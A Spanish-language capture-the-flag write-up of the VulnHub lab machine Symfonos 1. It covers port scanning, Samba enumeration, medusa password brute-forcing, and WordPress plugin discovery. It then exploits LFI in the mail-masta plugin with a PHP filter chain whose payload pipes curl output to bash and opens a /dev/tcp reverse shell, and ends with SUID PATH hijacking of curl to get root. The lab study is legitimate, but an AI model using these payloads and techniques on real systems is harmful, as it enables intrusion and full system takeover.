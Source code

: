 ```yaml
---
layout: single
title: Symfonos1 - VulnHub
excerpt: "Symfonos 1 es una máquina que contempla una vulnerabilidad llamada LFI(Local File Inclusion) que nos permite ganar acceso remoto a la máquina. Luego la escalada de privilegios es directamente a root por una mala configuración de permisos de archivos y una forma incorrecta de llamar al archivo \"curl\"."
date: 2023-11-02
classes: wide
header:
  teaser: /assets/images/vulnhub-writeup-pinkys/logo_vulnhub.png
  teaser_home_page: true
categories:
  - vulnhub 
  - cxdxnt
tags:  
  - suid
  - rpcbind
  - mount
---
```

![](/assets/images/vulnhub-writeup-pinkys/logo_vulnhub.png)


Symfonos 1 es una máquina que contempla una vulnerabilidad llamada LFI(Local File Inclusion) que nos permite ganar acceso remoto a la máquina. Luego la escalada de privilegios es directamente a root por una mala configuraciónde permisos de archivos y una forma incorrecta de llamar al archivo "curl".


## Enumeración

Empezamos con un reconocimiento de puertos y servicios a través de la herramienta nmap. En el cual logramos detectar varios servicios.

```python
# Nmap 7.93 scan initiated Mon Oct 30 07:39:39 2023 as: nmap -sCV -p22,25,80,139,445 -oN scanvuln.nmap 192.168.56.13
Nmap scan report for 192.168.56.13
Host is up (0.00032s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 ab5b45a70547a50445ca6f18bd1803c2 (RSA)
|   256 a05f400a0a1f68353ef45407619fc64a (ECDSA)
|_  256 bc31f540bc08584bfb6617ff8412ac1d (ED25519)
25/tcp  open  smtp        Postfix smtpd
| ssl-cert: Subject: commonName=symfonos
| Subject Alternative Name: DNS:symfonos
| Not valid before: 2019-06-29T00:29:42
|_Not valid after:  2029-06-26T00:29:42
|_ssl-date: TLS randomness does not represent time
|_smtp-commands: symfonos.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8
80/tcp  open  http        Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.5.16-Debian (workgroup: WORKGROUP)
MAC Address: 08:00:27:6F:15:D8 (Oracle VirtualBox virtual NIC)
Service Info: Hosts:  symfonos.localdomain, SYMFONOS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -1h20m01s, deviation: 2h53m12s, median: -3h00m01s
|_nbstat: NetBIOS name: SYMFONOS, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.5.16-Debian)
|   Computer name: symfonos
|   NetBIOS computer name: SYMFONOS\x00
|   Domain name: \x00
|   FQDN: symfonos
|_  System time: 2023-10-30T02:39:50-05:00
| smb2-time: 
|   date: 2023-10-30T07:39:50
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Oct 30 07:39:52 2023 -- 1 IP address (1 host up) scanned in 12.68 seconds
```

## Analisis 

El comienzo de la enumeración va a ser dirigido a través del servicio SAMBA, a la hora de listar los directorios observamos que uno de ellos contiene el nombre de un usuario del sistema.Para aclarar, también permite iniciar sesión como un usuario nulo.

![](/assets/images/vulnhub-writeup-symfonos1/sambaDirectorios.png)

Al ingresar y listar el único archivo que se presenta, nos informa que hay 3 contraseñas típicas que los usuarios están utilizando.


![](/assets/images/vulnhub-writeup-symfonos1/archivosSamba.png)

Utilizaremos "medusa" para ejercer fuerza bruta al usuario "helios" con las 3 contraseñas que nos indican.


```bash
➜  data medusa -M smbnt  -u helios -P password.txt -h 192.168.56.13 -v 4
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

ACCOUNT FOUND: [smbnt] Host: 192.168.56.13 User: helios Password: qwerty [SUCCESS (ADMIN$ - Share Unavailable)]
```

Con las credenciales del usuario "helios" podemos ingresar al directorio "helios" del servicio SAMBA. Que nos informa de una ruta del sistema.

![](/assets/images/vulnhub-writeup-symfonos1/listarDirectorios.png)

### Wordpress

Al ingresar al directorio "/h3l105" podemos analizar que se trata de un sistema de gestión de contenidos llamada WordPress, por lo que procedo a enumerar plugins y encuentro algunos interesantes.

```bash

➜  data ffuf -w ../../scripts/plugins.txt -u http://symfonos.local/h3l105/wp-content/plugins/FUZZ -t 100 -c  

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.4.1-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://symfonos.local/h3l105/wp-content/plugins/FUZZ
 :: Wordlist         : FUZZ: ../../scripts/plugins.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

akismet                 [Status: 301, Size: 344, Words: 20, Lines: 10, Duration: 0ms]
mail-masta              [Status: 301, Size: 347, Words: 20, Lines: 10, Duration: 7ms]
site-editor             [Status: 301, Size: 348, Words: 20, Lines: 10, Duration: 0ms]
:: Progress: [80086/80086] :: Job [1/1] :: 3659 req/sec :: Duration: [0:00:25] :: Errors: 0 ::
```

"mail-casta" y "site-editor" son vulnerables a Local File Inclusion(LFI). Pero solamente "mail-casta" nos deja interactuar con wrappers. Por lo que utilizaré "php_filter_chain_generator" que genera una especie de cadenas de filtros php para obtener un RCE.



```bash

➜  exploits git clone https://github.com/synacktiv/php_filter_chain_generator
Clonando en 'php_filter_chain_generator'...
remote: Enumerating objects: 11, done.
remote: Counting objects: 100% (11/11), done.
remote: Compressing objects: 100% (7/7), done.
remote: Total 11 (delta 4), reused 10 (delta 4), pack-reused 0
Recibiendo objetos: 100% (11/11), 5.23 KiB | 5.23 MiB/s, listo.
Resolviendo deltas: 100% (4/4), listo.
➜  exploits cd php_filter_chain_generator 
➜  php_filter_chain_generator git:(main) python3 php_filter_chain_generator.py --chain "<?php system('curl 192.168.56.1|bash');?>"
➜  php_filter_chain_generator git:(main) cat index.html
#!/bin/bash
bash -i >& /dev/tcp/192.168.56.1/443 0>&1
```

El contenido generado por la herramienta lo ponemos en el parámetro pl, y nos ponemos en escucha con python3 -m http-server 80 para que pueda tomar el archivo index.html. Sin olvidar de ponernos en escucha en el puerto 443 con nc.
```bash

http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=<Cadena de filtros PHP generado>.

```

## Shell - helios

Al ganar acceso remoto a la máquina procedemos a enumerar archivos SUID. Observamos que hay un archivo que llama la atención.

```bash
helios@symfonos:/dev/shm$ find / -perm -4000 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/opt/statuscheck
/bin/mount
/bin/umount
/bin/su
/bin/ping
```

Al analizar con strings el archivo statuscheck observamos que está llamando incorrectamente al programa curl, por lo que podemos llegar a realizar un ataque llamado Path Hijacking.

```bash

helios@symfonos:/dev/shm$ strings /opt/statuscheck 
/lib64/ld-linux-x86-64.so.2
libc.so.6
system
__cxa_finalize
__libc_start_main
_ITM_deregisterTMCloneTable
__gmon_start__
_Jv_RegisterClasses
_ITM_registerTMCloneTable
GLIBC_2.2.5
curl -I H
http://lH
ocalhostH
AWAVA
AUATL
[]A\A]A^A_
;*3$"
```

Procedemos a inicializar el ataque de la siguiente manera.

```bash

helios@symfonos:/dev/shm$ export PATH=/dev/shm:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
helios@symfonos:/dev/shm$ cat curl 
/bin/sh
helios@symfonos:/dev/shm$ /opt/statuscheck 
# whoami
root
```
